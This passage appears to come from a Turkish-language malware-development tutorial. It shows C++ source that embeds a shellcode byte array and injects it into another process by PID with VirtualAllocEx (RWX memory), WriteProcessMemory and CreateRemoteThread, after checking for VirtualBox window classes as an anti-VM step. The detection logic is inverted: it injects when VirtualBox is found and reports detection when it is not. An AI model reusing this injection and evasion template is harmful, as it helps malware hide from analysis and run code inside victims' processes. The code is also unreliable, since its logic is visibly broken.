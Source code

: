 ```cpp
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {

  HANDLE ph;
  HANDLE rt;
  DWORD pid;

  // find a window with certain class name
  HWND hcl = FindWindow((LPCSTR) L"VBoxTrayToolWndClass", NULL);
  HWND hw = FindWindow(NULL, (LPCSTR) L"VBoxTrayToolWnd");
  if (hcl || hw) {
    pid = atoi(argv[1]);
    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

    LPVOID rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), 
    MEM_RESERVE | MEM_COMMIT, 
    PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(ph, rb, my_payload, 
    sizeof(my_payload), NULL);

    rt = CreateRemoteThread(ph, NULL, 0, 
    (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
    CloseHandle(ph);

    return 0;
  } else {
	printf("virtualbox VM detected :(");
    return -2;
  }
}
```

Gördüğünüz gibi, yalnızca aşağıdaki sınıf adlarına sahip pencerelerin işletim sisteminde mevcut olup olmadığını kontrol ediyoruz:     
